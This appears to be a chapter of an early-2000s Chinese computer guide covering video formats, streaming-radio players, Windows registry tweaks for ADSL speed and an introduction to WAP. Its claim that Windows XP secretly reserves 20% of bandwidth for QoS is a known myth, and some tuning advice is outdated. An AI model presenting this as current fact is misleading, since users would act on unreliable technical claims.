AVI 是 Audio Video Interleaved 的缩写，它的历史是悠久的了，兼容很好，而且调用方便、图象质量好，缺点是文件体积过于庞大。如果你发现原来的播放器突然打不开AVI文件格式了，那么你可能是正在使用 n AVI。n AVI 是 newAVI 的缩写，是一个名为 ShadowRealm 的地下组织发展起来的一种新视频格式，由 Microsoft ASF 压缩算法的修改而来的，NAVI 改善了原始的 ASF 格式的足，让 NAVI 可以拥有更高的帧率，是一种去掉视频流特性的改良型 ASF 格式，也可以被视为是非网络版本的 ASF。

### 11. MOV与QT

MOV 格式文件采用的 QUICK TIME 标准，可以提供1/4屏大小，15帧／秒的动态图像，目前被广泛应用于网络视频播放和预览，可以在安装有插件的浏览器中直接观看影片，或者使用QuickTime Player 来进行播放。QUICK TIME 可以让你一边下载一边观看，目前很多电脑游戏中都内置了QuickTime作为播放器，还有很多第三方程序都支持MOV媒体格式，比如Adobe AfterEffect 和Premiere等。

### 12. SWF

SWF 是 Micromedia 公司的产品Flash的矢量动画格式，它采用曲线方程描述其内容，不是由点阵组成内容，这种格式的动画在缩放时不会失真，非常适合描述由几何图形组成的动画，如教学演示等，可以与 HTML 文件充分结合，并能添加MP3音乐，因此被广泛地应用于网页上，成为一种“准”流式媒体文件。播放SWF动画可以下载相应的IE插件即可实现播放，另外，还可以使用Flash的播放器进行播放预览。

### (二)网络视听实战指南

魅力四射的多媒体空间给人的视听带来了一个崭新的世界，接下来我们就来介绍一下如何在网上进行流媒体播放。

### 1. Realplayer播放网络节目

目前国内很多网络电台都采用了RM格式做为网络流媒体文件类型，Realplayer 包括大量的特色功能，在低速连接下也能提供高品质的节目，而且因特网上绝大部分广播电台都提供 Real 格式的节目。Realplayer内置了许多频道，只需在相应频道按钮上单击一下，就可以迅速访问大量的网络广播站点，在 Realplayer 中提供了约100个网络广播电台，并分门别类组织起来。

使用 Realplayer 播放网络界面的方法比较简单，启动以后在【Location】地址栏中输入网络电视台的网址，或者使用 Realplayer 的默认网址 http://movies.real.com/，然后在下面打开的页面中即可查询感兴趣的节目内容，选定一个节目以后，就可以单击【播放】按钮开始播放并浏览了。

### 2. Windows MediaPlayer在线视听

在 Windows ME 和 Windows XP 系统都集成了一款名为 Windows Media Player 的在线播放工具，对于 Windows 98 和 Windows 2000 用户来说，可以在网上免费下载这个播放器；Windows Media Player几乎支持竞争对手的.RM格式外所有流行的多媒体格式，并且其声音和视频的回放品质也相当高，无论是听网络电台、MP3、CD 或看视频录像等都基本上无需再安装其它第三方软件来实现。

首先我们可以来查找网络广播，单击【收音机调谐器】，然后使用【电台搜索器】区域中的下拉列表框中提供的搜索条件查找特定的电台，比如可以按照格式、波段等条件，查找结束后，即可在【电台搜索】器】区域中，在打开的网络广播电台的名称上双击鼠标，即可开始收听网络广播了。如图156所示。
如果要播放网络电视、电影，可以进入相关网络电视网站直接选择电视、电影节目，或者执行菜单【文件】→【打开URL】命令，并在弹出的对话框中输入网络电视节目的网址就可以了。

## 3. 黄金网络收音机

黄金网络收音机的下载地址是：http://www.skycn.com/soft/7491.html。

黄金网络收音机内置双引擎，同时支持多种播放流格式，只需要使用这个播放器就可以同时支持RealPlayer及Windows Media Player两种网络流格式的播放，除此以外，还预置了电台功能，提供了12个电台预选，可以随时方便的预置自己喜欢的电台。

它提供了支持网页媒体、本地媒体文件的拖放播放的功能，只须把看到的有效连接拖向收音机面板，原来节目可以收听了。在使用过程中，可以单击控制面板右侧的数字按钮，就可以直接播放相关的电台节目了，如图157所示。


除了可以直接播放预定电台之外，我们还可以自定义网络收音机的分类功能。用鼠标右键单击控制面板，在弹出快捷菜单中单击【软件选项/最爱电台/添加电台】命令，即可将当前播放的电台直接添加到当前分类了，如图158所示。


## 4. Hiwire Worldwide Radio 2.3.7

如果大家尝试着想听听世界各地的电台，Hiwire Worldwide Radio就是一个相当不错的选择。World-wide Radio全力搜罗了全世界众多的网络广播电台，下面就来介绍一下它的使用方法。

启动 Hiwire Worldwide Radio 以后，需要首先填写一下自己的注册信息，然后即可进入其主界面窗口，如图159所示。

单击【Tune-in】按钮，进入电台选择视窗，就可以看到世界各国的电台了。比如我们单击界面上方的【Country】按钮一次，这时会发现当前列表中的排列顺序就是按照城市名称来排列了。另外，在【Search】文本输入栏中还可以直接输入电台的名称进行查找，找到以后，单击【play】按钮返回主界面就可以进行播放了，如图160所示。


如果在收听电台的同时还想浏览该电台的主页，可以单击【Web】图标按钮，这样就可以边听收音边浏览网页了，如图161所示。


## 5. 龙卷风网络收音机(TRN)

龙卷风网络收音机的下载地址是：http://www.ljf21.com/trn/chs/index.html。

使用龙卷风收音机只要用鼠标轻轻一点，就能听遍全世界的声音。它内建共有200多个电台，包括100多个中文电台(包括普通话、粤语)及一些国际著名电台。程序已经内置了在线更新电台信息及在线升级程序功能，免去每当新版本发布时又得重新到网站下载的烦恼。需要提醒的是，在使用龙卷风收音机的同时，电脑中需要安装有 Windows Media Player 和 Real Player 软件。

运行网络收音机并进入其主界面窗口，它的界面由左右两部分组成，左边是控制面板，右边则是可以选择的电台名称，只要在电台列表中选择一个喜欢的电台名称，然后双击就可以开始播放了，如图162所示。


如果你打算将自己喜欢的电台添加到面板中，可以用鼠标右键单击空白处，在弹出的快捷菜单中选择【添加电台信息】命令，然后在弹出的对话框中填入要添加的电台名称，并在【播放网址】中填上目标电台的源地址，播放格式选择【自动】播放，最后单击【添加】按钮即可，如图163所示。


#### （三）宽带网络视听资源网址

目前网上有很多提供网络视听的网站，下面就列举一些供网友参考。

- 中央电视台(www.cctv.com.cn)
- 阳光调频中文台(http://www.fm530.com/)
- e路飞扬(http://fly914.fm914.com/)
- 互动电视(http://www.norward.net/)
- 电视指南(http://tve23.com/)
- 佳影网(http://www.jw8.net/)
- 爱阁影院(http://www.aige.com/)
- 北方电影院(http://www.ncinemaline.com/)
- 电影好莱坞(http://www.filmon.com/)
- 电影1号(http://www.movie001.com/)
- 电影世界(http://www.movies-show.com/)
- 广电在线(http://www.sarft.com/)
- 昆明网城电影频道(http://www.kpworld.com/movie/)
- 沈阳电影网(http://www.syfilm.com/)
- 新视界电影网(http://www.nvww.net/)
- 中国影视网(http://www.tvnet.com.cn/)
- 奥斯卡宽带在线影院(http://www.168101.net/)
- 酷中国影视网(http://www.coolchina.net/)
- 宽频互动电视(http://www.tvtop.tv/)
- E-TV(http://www.etv.us.tt/)

### 六、宽带网优化

宽带的普及，对于早就渴望脱离 Modem “龟速”苦海的广大网友来说的确是件令人欢欣鼓舞的事。但是对于目前已经使用上宽带的朋友，在越来越多的网络应用中，却发现宽带至少在现在来说还不如当初相象的那么美好，很多朋友在平时使用中经常会遇到各种各样的问题，比如宽带网络偶尔也不稳定，有时速度下降等。而且，还有很多朋友还是不满足于其宽带网提供商(ISP)所提供的速度，其实，面对这些情况，我们可以根据各种情况自己对宽带网进行一番优化和加速设置，就能在一定程度上或多或少地解决这些问题。就目前而言，国内用的最多的宽带上网方式基本上都是基于PPPoE网络协议的虚拟拨号方式，因此下面就以目前最为普及的ADSL上网为例，来介绍一下对于宽带进行优化的具体方法。

从宽带网的接入来看，主要的网络连接端可以分为 ISP 服务商的服务器连接端以及我们自己本地的客户连接端。显然，对于 ISP 服务商的服务器连接端我们是无法进行任何调控的；但是对于自己本地的客户端我们是可以进行调控的，因此我们可以在本地客户端进行相应的优化工作。本地的客户端可以分为软件和硬件两方面，所以我们的优化工作也就从这两个方面来考虑。

这里介绍的这些方法，不一定就能够对你的宽带网络有明显的提速作用，但希望读者对这些知识有所了解，在宽带网出现故障的时候就能进行调整优化了。

#### （一）软件优化

宽带接入应用，用户端的在操作系统中应用主要在于拨号以及相关的网络应用程序，对于这些方面的设置将在一定程度上影响宽带应用的效能。

1. 修改系统注册表优化网络设置

(1)系统优化原理

相信很多朋友在使用普通的 Modem 拨号上网的时代就对网络优化有了很深的认识了吧，在相同的情况，对于系统的网络参数进行优化设置的确能很好的“提速”作用。对于大家最常用的Windows操作系统而言，在安装时为确保兼容性通常都是按照默认的“保守”进行安装的，系统的性能特别是与网络相关方面的性能根本没有发挥。而由于ADSL等宽带拨号采用的基本上都是PPPoE协议，此协议具有局域网的特点，但是又不完全等于局域网协议，所以完全可以使用通过修改注册表中有关参数对宽带的网络设置进行优化。其中最主要的优化参数主要有MaxMTU、DefaultRcvWindow和DefaultTTL这几个。

#### ① MTU

MTU是英文Maximum Transmission Unit的缩写，意为“最大传输单位”，也就是在连接的时候，所传输信息包最多可以有多少字节，它是最大的TCP/IP传输单元，在TCP / IP协议中将要传输的数据分成较小的组进行传输，每个组的大小为576字节。Windows默认的字节为1500，这是以太网的分组标准。ADSL使用的PPPoE略小于这个数值，根据ISP得到的又有微小差异，使用默认值会降低传输效率，MaxMTU在注册表中的位置为：
HKEY_LOCAL_MACHINE/System/CurrentControlSet/Services/Class/NetTrans/00yy
其中yy是TCP/IP的入口，随设置的不同而不同，一般在00到30之间。
ADSL的PPPoE用户一般设置 MaxMTU 为1492或更小，根据自己的检测结果输入正确值。
MaxMSS=1452，即MaxMTU数值减去40

#### ② DefaultRcvWindow

DefaultRcvWindow是缺省的传输单元缓冲区的大小。缓冲区太小，将导致分组阻塞，降低传输效率。缓冲区太大，一个分组出错会导致缓冲区中的所有分区被丢弃和重发，也会降低效率。该值的大小与网络连接的速度有关，DefaultRcvWindow在注册表中的位置是：
HKEY_LOCAL_MACHINE/System/CurrentControlSet/Services/VxD/MSTCP?
DefaultRcvWindow=256960，在Windows 98/ME中这个可以最大设置为2的30次方，为了获得最佳效果这个值应为MSS的整数倍，最大可以65535倍。

#### ③ DefaultTTL

DefaultTTL是TCP/IP分组的寿命，如果分组在Internet中传输的时间超过了分组的寿命，则该分组将被丢弃。将DefaultTTL改得更大些，有利于信息在INTERNET中传得更远。DefaultTTL在注册表中的位置为：
HKEY_LOCAL_MACHINE/System/CurrentControlSet/Services/VxD/MSTCP

DefaultTTL=64，可选范围是1～255，推荐使用32～128之间的偶数值。

(2)优化准备

通过上面的优化原理，我们知道了在进行系统优化时需要主要注意的几个系统网络参数，不过这些参数的具体取值对于不同的网络提供商(ISP)来说并不都是相同的，因此在进行正确的修改工作前必须进行必要的网络参数检测工作，具体如下：

#### 检测获取正确的ISP的MTU参数。

要获得正确的ISP的MTU参数，我们首先需要连接上互联网，然后使用Windows的Ping工具进行相应的检测工作，ping命令格式是：

```
ping -f -l [数据包大小] [网址]
```

数据包大小的可用数值可以从0到1500
[网址]参数可以是ISP的DNS服务器或者其他互联网上的服务器

如果执行上述格式ping命令后返回信息为：

```
Packet needs to be fragmented but DF set.
Packet needs to be fragmented but DF set.
Packet needs to be fragmented but DF set.
Packet needs to be fragmented but DF set.
```

就说明上面使用ping命令时定义的数据包大小超过了ISP的MaxMTU，产生了数据冲突碎片，那么降低数据包大小再次执行，直到返回类似于下面的回应信息：

```
Reply from 218.108.118.68:bytes=32 time<10ms TTL=244
Reply from 218.108.118.68:bytes=32 time=10ms TTL=244
Reply from 218.108.118.68:bytes=32 time<10ms TTL=244
Reply from 218.108.118.68:bytes=32 time<10ms TTL=244
```

并且要找到数据包大小是最大的不返回“Packet needs to be fragmented but DF set”标志的大小值。找到以后这个值就等于ISP的MTU参数减去28。这里为什么要减去28，因为在TCP/IP数据包中20 bytes用于IP报头，8 bytes用于ICMP报头。

为方便大家快速寻找对应参数，大家可以在测试时选用下表中给出的ISP的MTU参数参考值。

(3)手工优化系统注册表实战操作

网络参数的设置对于不同的操作系统，优化设置时的具体修改操作有所不同，在这里就详细地给大家介绍一下在各个Windows系统中进行优化的具体步骤和相关的内容：

### ISP 的 MTU 参数参考值

| 不返回 "Packet needs to be fragmented but DF set" 标志的最大参考值 | 网络提供商 (ISP) 的 MTU 值 | 相应描述 |
| :--- | :--- | :--- |
| 1472 | 1500 | 用于局域网 1472+28=1500 |
| 1468 | 1496 | 局域网按照标准是 1496，实际常用 1500 来简化代替 |
| 1464 | 1492 | PPPoE 常用的 MTU 值 |
| 548 | 576 | 常用于普通 56K Modem 拨号的 MTU 值. |

#### ① Windows XP 的优化操作

Windows XP 自带 PPPoE 拨号，更加全面优化了网络的连接，所以我们可以优化的地方大大减少，不过从实践的情况来看我们仍然对以下几个地方进行合适的优化调整：

运行注册表编辑器，在以下几个项目加入如下几个值：

```
HKEY_LOCAL_MACHINE\System\Ccs\Services\Ndiswan\Parameters\Protocols\0
```

在该项目下增加以下 2 条键值才能对 Windows XP 的 MTU 参数进行有效修改

```
名称: ProtocolType
类型: REG_DWORD 双字节
键值: 0x0800

名称: PPPProtocolType
类型: REG_DWORD 双字节
键值: 0x0021
```

现在就可以增加控制 MTU 的关键键值

```
名称: ProtocolMTU
类型: REG_DWORD 双字节
键值: 1492
```

ADSL 的 PPPoE 用户一般设置 MaxMTU 为 1492 或更小，根据自己的检测结果输入正确值。

在以下几个项目加入如下几个值：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters

SackOpts=00000001 (双字节 DWORD 值)
TcpWindowSize= 0003e640 (双字节 DWORD 值)
Tcp1323Opts=00000001 (双字节 DWORD 值)
DefaultTTL =00000040 (双字节 DWORD 值)
EnablePMTUBHDetect =00000000 (双字节 DWORD 值)
EnablePMTUDiscovery =00000001 (双字节 DWORD 值)
GlobalMaxTcpWindowSize =0003ebc0 (双字节 DWORD 值)
```

对于 PPPoE 连接，推荐使用 0003e640

#### ② Windows NT 的优化操作

运行注册表编辑器，在以下几个项目加入如下几个值：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters
```

```
TcpWindowSize="64240" (字串值)
在 Windows NT/2000 中可以范围是 0-65535，推荐使用 64240, 32120 和 8760

DefaultTTL="64" (双字节 DWORD 值)
可选范围是 1-255，推荐使用 32-128 之间的偶数值

EnablePMTUDiscovery="1" (双字节 DWORD 值)
0-false 或者 1-true，推荐为 1，当设置为 1 的时候在和 ISP 建立连接登录的时候会稍微变慢，但是以后使用能够提高一些速度。

EnablePMTUBHDetect="1" (双字节 DWORD 值)
0-false 或者 1-true 当 "EnablePMTUDiscovery" 设置为 1 的时候这里也设置为 1。
```

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<网络接口>\Parameters\Tcpip
```

```
MTU="1492" (双字节 DWORD 值)
```

ADSL 的 PPPoE 用户一般设置 MaxMTU 为 1492 或更小，根据自己的检测结果输入正确值。

#### ③ Windows 2000 的优化操作

Windows 2000 比较 Windows9x 和 Windows NT 来说在网络部分有了更好的优化，但是在几个地方反而没有进行有效优化。所以我们仍然需要修改注册表彻底进行优化：

运行注册表编辑器(开始菜单->运行->输入 regedit ) 在以下几个项目加入如下几个值：

```
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters

SackOpts=00000001 (双字节 DWORD 值)
TcpWindowSize= 0003ebc0 (双字节 DWORD 值)
如果你使用 PPPoE 连接，推荐使用 0003e640
Tcp1323Opts=00000001 (双字节 DWORD 值)
DefaultTTL =00000040 (双字节 DWORD 值)
EnablePMTUBHDetect =00000000 (双字节 DWORD 值)
EnablePMTUDiscovery =00000001 (双字节 DWORD 值)
GlobalMaxTcpWindowSize =0003ebc0 (双字节 DWORD 值)
如果你使用 PPPoE 连接，推荐使用 0003e640
```

#### ④ Windows 9x/ME 的优化操作

运行能够注册表编辑器(开始菜单->运行->输入 regedit)，在以下几个项目加入如下几个值：

```
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Class\NetTrans\000n
```

(这里的 "000n" 是你当前系统中使用 TCP/IP 协议的接口，在它的 "DriverDesc" 键值包括 "TCP/IP"，"n" 按照接口数量从 0 到 9，请选择用于连接 Internet 的接口——网卡、PPPoE 虚拟网卡、拨号适配器，如果不知道怎样确定到底那一个 "000n" 用于连接互联网请参考"检测正确优化值")

```
MaxMTU="1492" (字串值)
```

ADSL 的 PPPoE 用户一般设置 MaxMTU 为 1492 或更小，根据自己的检测结果输入正确值。

MaxMSS="1452" (字串值) MaxMTU数值减去40


HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\VxD\MSTCP\

DefaultRcvWindow="256960" (字串值)

在 Windows 98/98SE/ME这个可以最大设置为2的30次方，为了获得最佳效果这个值应为 MSS 的整数倍，最大可以65535倍。

DefaultTTL="64" (字串值)

可选范围是1-255，推荐使用32-128之间的偶数值。

PMTUDiscovery="1" (字串值)

0—false 或者 1—true. 推荐为 1，当设置为 1 的时候在和 ISP建立连接登录的时候会稍微变慢，但是以后使用能够提高一些速度。

图164


PMTUBlackHoleDetect="0" (字串值)

设置为 0 能优化网络。

Tcp1323Opts="1" (字串值)

推荐为 1，可选值：0—没有数据包缩放比例和时间信息，1 —有数据包缩放比例但是没有时间信息，3 — 同时有数据包缩放比例和时间信息。

SackOpts="1" (字串值)

推荐为 1 可选值：0 — 没有分包功能，1 — 有分包功能。

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\VXD\MSTCP\Parameters\

MaxDupAcks="3" (双字节值)

图165

2 to N之间任意整数值，推荐值 3。

## (4) 软件优化系统注册表实战操作

手工修改注册表对于很多一般用户来说总是感觉要麻烦一些，而且修改错误很有可能导致系统工作不正常，那么不妨使用一些“超频”工具来实现自动的优化修改工作。常见的优化软件有很多（如 Window优化大师等），在这里笔者推荐使用 ADSL 优化软件进行注册表的修改，下面就来介绍一下它的具体使用方法。

ADSL 超频奇兵为 ADSL 宽带加速软件（下载地址：http://www.hktk.com/soft/soft_netassistant/adslcpqb.html），通过修改系统注册表中原来专为“低速”接入设备而设置的 TCP/IP默认参数以适应 PPPoE方式的 ADSL等宽带接入方式，实测可提高一倍左右的下载速度，并解决了 ADSL 浏览网页速度减慢的问题。

- 普通超频
  在其主界面窗口中，单击【ADSL超频】按钮，并在右侧单击【普通超频】按钮，然后重新启动电脑后即可加速生效。如图164所示。
- 高级超频
  进入【高级超频】页面，在连网的状态下点击【开始校验MTU值】，检验完毕则会弹出对话框显示校验成功。然后直接点击【高级超频】按钮，重新启动电脑后加速生效。校验MTU值的过程因占用大量CPU资源而可能会出现PC机“假死”，不需要重新启动计算机。如图165所示。

检验完毕后，ADSL 超频奇兵会自动修改系统并针对 ADSL 进行优化。具体的修改参数有 MaxMTU、DefaultRcvWindow 等，这种优化能够使 ADSL 适应 ISP 的网络参数，最大限度地提高 ADSL 的工作效率。优化完毕后需要重新启动计算机使相应的修改生效。

经过以上的修改，ADSL 就优化好了，我们可以到下面这些专门的评测网站检测速度。

- www.speedtest.net
- www.dslreports.com
- www.computers4sure.com

## 2. 其他系统设置优化

除了上面介绍的对于注册表中的几个主要网络参数进行修改优化外，对于 Windows9X 以及 Windows XP 等操作系统以及 IE 等应用程序来说，还可以通过额外的方式优化宽带网络的设置，下面就来逐一介绍一下。

### (1) Windows 9X

在 Windows 9x 操作系统中，每一个中断请求（IRQ）系统都保留了一定数量的内存空间，用于缓冲使用IRQ的设备与系统之间的数据传送以提高效率。缺省情况下所保留的内存都不大，如果我们增大这个缓冲区的大小，通常都能有一定的性能提升。对于 DSL 和 Cable Modem 等宽带上网方式，我们增大 ADSL MODEM/Cable Modem 所连接的网卡的内存IRQ缓冲据测试都能使得网络性能有一定的提升。

当然如果你的系统处理能力较低，内存较小，使用这个优化方法将适得其反，可能起不到网络优化的作用反而拖累整个系统的运行性能。对于计算机系统配置比较好的用户（计算机内存大于 256M），我们建议使用下面的方法修改，网络性能会有明显提升。具体操作步骤如下。

首先我们要找到网卡所使用的系统IRQ值。通过【控制面板】进入【系统】属性，并选择查看【设备管理器】，选择【计算机】并查看它的属性，如图 166 所示。


在中断请求中我们就可以找到网卡所使用的IRQ号。找到以后，需要在 Windows 9x 的 System.ini 文件中为该中断请求指定缓冲区内存大小。使用文本编辑软件打开 Windows 安装目录下的 System.ini 文件（如图 167），找到 [386enh] 段，并在里面增加一行 Irq[n]=4096，其中的 n 就是网卡所使用的IRQ，4096是指定的缓冲区大小，你可以不断尝试修改以使用自己合适的最佳大小。

修改完成以后，重新启动计算机使修改生效。

**注意：** 如果系统中有多块网卡，那么建议只修改连接 ADSL Modem/Cable Modem 的那块网卡，留出更多的内存给应用程序使用。

如果使用的是 USB 类型的设备，由于该设备不使用 IRQ，所以你可以尝试优化 USB 控制器（USB Controller）来达到相应的目的。

对于 IRQ 的缓冲建议不要大于 4M，也就是在 system.ini 中的相关值不要大于 4096，实践证明过大的缓冲对于网络性能的提升非常有限。

### (2) Windows XP

使用 Windows XP 的用户通常并不会知道，自己在使用网络服务时，Windows XP 并没有把真正的网络带宽全部留给用户，而是自己偷偷地“保留”了20%的带宽。那么这20%的带宽 Windows XP 留着到底有什么用呢？答案就是 “Quality of Service Resource Reservation Protocol”，它的中文意思是服务质量资源预留协议，可以简称为 QoSRRP。要说明这个东西，得先说一下应用程序接口，一般来说，试图通过可用带宽访问信息的时候，应用程序要么通过 QoS 应用程序接口，要么通过另一个称为 TCP 的应用程序接口。这两者的差别在于，我们可以为 QoS 应用程序预留带宽，这对于 QoS 应用程序的运行性能肯定是有很大帮助的，所以当我们安装完 Windows XP 后，默认情况下，它就为 QoS 应用程序预留了 20% 的带宽。但是对于广大的家庭用户来说，基本上是不会使用到这种接口的应用程序，这部分宝贵的带宽就白白浪费了。因此释放这部分带宽对于提升系统的网络性能是非常有帮助的。下面我们就来“释放”这部分被闲置的带宽吧：

首先，点击【开始】，选择【运行】，然后输入 “gpedit.msc” 后回车，出现【组策略】窗口，双击【本地计算机策略】，打开计算机配置，再打开管理模板下的【网络】，找到其下的【QoS数据包高度程序】，选中它，双击右边的【限制可保留带宽】，弹出【限制可保留带宽属性】设置窗口，在【设置】选项卡中选中【已启用】，改变下面的带宽限制值为 “0”，最后单击【确定】按钮。如果禁用或不配置此选项，则系统使用默认值的 20% 的保留带宽。


### (3) 修改浏览器设置，优化浏览速度

正常情况下，IE浏览器浏览网页的时候与服务器只是建立了2~4个连接来下载数据，通过修改浏览器与服务器连接数量的设置，可以同时使用多个连接来并行下载数据，修改以后可以明显的加快浏览器的工作速度。

运行注册表编辑器打开注册表，增加以下的项目：

HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings\

"MaxConnectionsPer1_0Server"=20（双字节DWORD值）
HTTP 1.0 老服务器同时使用20个连接来下载网页数据，不增加默认是2。

"MaxConnectionsPerServer"=10（双字节DWORD值）
HTTP 1.1 服务器同时使用10个连接来下载网页数据，不增加默认是4。

这个优化方法只针对Microsoft Internet Explorer 4.0以上的版本起作用。但是同时要注意的是，过多的连接数量将加重计算机CPU的运算负担，有可能反而起不到应有的作用，具体修改时可以根据自己的需要来进行修改。

## (二) 硬件优化

宽带用户的客户端，除了操作系统和相关的网络应用软件外，外围的网卡以及网线等硬件设备工作状况对于宽带网络的运行性能有着比较大的关系。因此，对于这部分设置的优化是非常有必要的。

### 1. 网卡优化

#### (1) 正确安装网卡

网卡作为宽带接入的硬件设置，它的运行状况直接决定着网络运行的正常与否。因此正确安装网卡非常重要，在安装中要注意网卡和主板的兼容性，兼容性差的网卡在数据大流量的情况下容易出问题。同时安装网卡时要注意网卡所占用的中断号（IRQ），尽量不要让网卡和其他硬件设备共享同一中断，否则当两个设备同时工作时将严重降低网卡的工作性能从而导致网络性能的相应下降。

#### (2) 网络协议设置优化

安装网卡后，对于系统中网络连接也需要进行优化，尽量不要在网卡上绑定过多的协议，过多的协议容易导致网络的不稳定。很多情况下，宽带网络容易掉线的问题就是由于在网卡上绑定的协议太多（特别是那些网络监控协议）造成的。因此，在安装的时候，我们尽量只安装必需的协议就可以了，一般来说，家庭宽带网常用的必需协议有TCP/IP协议、网络客户端、Internet协议、Windows登录。

#### (3) 设置双网卡，专卡专用

我们知道，网卡的工作效率除了依靠本身驱动程序的设计，还和网卡上所执行的任务也就是所绑定协议的数量多少有很大的关系，一块网卡上如果绑定了很多协议，那么当数据流过网卡的时候，计算机CPU和操作系统就要花费很多时间来确定这个数据使用哪一种协议来传送。当我们使用双网卡共享上网方案并且客户端数量很多的时候，网卡工作负荷很重，我们就必要对网卡进行一些优化设置来提高网卡的工作效率。

比如RasPPPoE是按照一种协议来安装到计算机上的，如果我们能让一块网卡只运行PPPoE协议来连接ADSL，提供共享上网的外部连接，另外一块网卡只运行TCP/IP、NetBEUI、IPX等局域网协议来连接局域网提供共享上网和文件打印共享，就可以实现任务分流、各尽其职，从而提高性能。

Windows 2000操作系统在网络管理方面设计的比较先进全面，要实现我们上面的想法比较简单。

首先我们按照RasPPPoE的标准安装好RasPPPoE，然后进入【网络属性】界面，分别对系统内的两块网卡（本地连接1，本地连接2）的属性根据上述思路设置。连接ADSL MODEM或者其他宽带接入的网卡，我们就去掉上面绑定的所有的协议只保留PPPoE协议，这样这块网卡就专负责ADSL连接，并且这样设置以后，就不会因为两块网卡安装在同一台电脑上，当局域网定位计算机的时候要查找两块网卡而干扰正确判断网络标识，在另外一块连接局域网的网卡上去掉PPPoE协议只保留局域网需要的协议，这样这块就专职于局域网服务。

经过这样设置以后，专卡专用，可以明显提高系统的网络性能。

### 2. 网线优化

对于目前常见的家用宽带接入方式，真正接入端的带宽都在10M以下，市场上常见的3类线基本上就能满足带宽的传输要求，但是出于以后升级的需要，在条件许可的情况下建议大家还是选择5类线为好。同时在水晶头压线的时候要注意，尽管10M接入只需要8根线中的4根就能实现，但最好还是尽量用8线来压制，因为另外4根线的存在能有效地屏蔽干扰信号，保证网络的正常传输。

> （文/鸣涧 张京京）

## 无线通信网络全接触

### 一、WAP 神话的崛起与破灭

WAP (Wireless Application Protocol) 的中文含义为“无线应用协议”，通过它可以标准化无线通信设备，让用户借助无线手持设备（如掌上电脑、手机、呼机、双向广播、智能电话等）获取全球信息。理论上，所有的操作系统都支持WAP。其中，专门为手持设备设计的有Palm OS、Windows CE、FLEX OS、OS/9和Java OS。它们针对无线网络的低带宽、高延迟等缺陷进行优化设计，把Internet的一系列协议、规范引入到无线网络中来。

### (一) WAP 的诞生和成长

早在1997年6月，诺基亚、爱立信、摩托罗拉和无线星球（Unwired Planet）就共同组成了WAP论坛，论坛的主要任务就是共同制定WAP协议的标准和规范。到了1998年初，WAP规范正式公布，并授权给全球的移动通信终端制造商们使用。爱立信公司于1999年6月推出了全球第一个符合WAP 1.1的端到端WAP系统；诺基亚公司的WAP 1.0服务器已有1万多台在各公司使用；Microsoft公司已宣布开发支持WAP电话的浏览器Microsoft Mobile Explorer，这种新型双模微浏览器可以显示符合HTML和WAP1.1两种标准的内容。而我们认为，第一款支持WAP上网的手机——诺基亚7110r的上市，才真正宣告了WAP时代的到来。据相关机构统计，在WAP最鼎盛时，光中国就有相应的内容提供服务商200多家，WAP网站近300个，申请开通WAP服务的用户数十万人。

### (二) WAP 的技术原理浅析

WAP在无线网络上的操作模式有两种（如图1、图2）。一种是作为客户端（Client）和网络服务器（Web Server）之间的WAP网关（WAP Gateway）；另一种是直接作为客户端连接的WAP软体服务器（WAP Application Server）。WAP只要求移动电话和WAP代理服务器的支持，不要求现有的移动通信网络协议做任何改动，因而适用于CDMA、GSM、IMT－2000等不同的移动通信系统。此外，WAP对手持设备的要求较低，


通过加强网络的功能来弥补手持设备本身的缺陷，就像Web对Internet的作用一样。WAP在应用层上隐藏了GSM的复杂性，将友好而亲切的界面展示给用户。

WAP网络架构由三部分组成，即WAP网关、WAP手机和WAP内容服务器，这三方面缺一不可。其中WAP网关起着“翻译”的作用，是联系GSM网与因特网的桥梁；WAP内容服务器存储着大量的信息，以支持WAP手机用户来访、查询和浏览。当用户从WAP手机键入他要访问的WAP内容服务器的URL后，信号经过无线网络，以WAP协议方式发送至WAP网关，经过“翻译”，再以HTTP协议方式与WAP内容服务器交互，最后由WAP网关将返回的内容压缩、处理成Binary流，返回到WAP手机上。WAP网关大多由电信业主或ISP服务商所设立，一般的Web网站只要加入WML MIME的格式设定，就可以让手机用户输入该站WML的URL连接进来，而无需增添任何设备，这也是WAP技术迅速成长起来的重要条件。


### （三）WAP技术的实际应用

通过WAP技术，可以将Internet的大量信息及各种各样的业务引入到移动电话、Palm等无线终端中。无论你在何时、何地，只要你打开手机，就可以享受无穷无尽的网上资源。在全球大部分地区，手机用户早就可以使用移动电话接收电子邮件、气象预报和其它设定内容。在中国，已经全面商业化运作的GPRS的数据呼叫业务使WAP技术在信息服务方面更是锦上添花。瑞典的GSM网络已经与诺基亚签署协议，共同开展网上预约业务；美国的WAP服务可以让用户查看电子邮件和预定个人互联网信息。此服务已遍布280多个城市，内容包括新闻、天气预报、市场信息、体育和娱乐新闻等；在日本，有300万人购买I-MODE服务的手机并申请了配套的移动电话网络服务，包括网上漫游电子邮件、车票预订及铁路公路时刻查询。

### （四）如何利用手机浏览WAP网页

下面，我们以摩托罗拉6188为例，向大家讲解一下如何利用手机浏览WAP网页。

- (1) 在主屏幕中选择“系统设置”，进入系统设置屏幕。
- (2) 在系统设置屏幕中选择“浏览器设置”，进入WAP “功能设置”菜单。
- (3) 选择“代理服务器1”（或“代理服务器2”、“代理服务器3”），进入相应屏幕设置代理服务器。
- (4) 分别按各项资料的输入栏，进入相应的数字输入屏幕，输入资料（中国电信网关的IP为010.000.000.172，端口号为9201，接入号码为172）。
- (5) 正确输入所有资料后，选择“确定”，回到浏览器设置屏幕。
- (6) 再选择“数据呼叫信息”，进入数据呼叫屏幕。分别选择各项资料的输入栏，进入相应的数字输入屏幕输入资料。电话号码（172）、用户名（WAP）、密码（显示为“***”）、WAP波特率（9600）、线路类型（调制解调器）、连接类型（透明）。
- (7) 正确输入所有资料后，选择“确定”，回到设置屏幕，再选择“确定”。
- (8) 关闭手机后重新打开。

所有的参数改变在重新开机后生效，这样就完成了WAP功能的设置；在主屏幕中选择“浏览器”，即可开始访问因特网。

